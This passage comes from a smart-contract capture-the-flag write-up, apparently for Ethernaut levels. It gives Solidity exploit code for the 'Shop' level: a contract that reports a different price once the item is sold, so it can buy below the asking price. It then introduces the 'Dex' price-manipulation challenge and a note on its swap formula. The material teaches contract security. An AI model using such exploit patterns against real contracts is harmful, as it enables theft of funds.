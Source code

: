 
## Shop

```js
interface Shop {

  function buy()  external ;
  function isSold()  external view returns (bool) ;
  }

contract EvilContract { 
    address victimAddress;
    Shop shopContract;

    function setVictimAddress( address _victimAddress) public { 
        victimAddress= _victimAddress;
        shopContract = Shop(_victimAddress);
    }

    function price() external view returns (uint){
        return shopContract.isSold()?0:100;
    }

    function buy() public {
        shopContract.buy();
    }
}
```

## Dex

`This challenge and it's second version will have the same solution basically with a little tweak. Better understand the concept`

**Challenge description**

>The goal of this level is for you to hack the basic DEX contract below and steal the funds by price manipulation.
You will start with 10 tokens of token1 and 10 of token2. The DEX contract starts with 100 of each token.
You will be successful in this level if you manage to drain all of at least 1 of the 2 tokens from the contract, and allow the contract to report a "bad" price of the assets.

--------
**Analysis**

The logic is faultless or is it ?  Well to be honest had to try many things here. One thing that got my attention that the equation made to calculate the swap_amount was familiar but not that much

![Dex Equation](https://res.cloudinary.com/dsdvvwb8v/image/upload/v1659138013/17dcc969cfc52464829cb1a88231824931fda3a5b0d0b1d3d446eaf763974942_xxpfji.png)

A good read to understand it [Amazing Article to understand AMM](https://www.gemini.com/cryptopedia/amm-what-are-automated-market-makers).

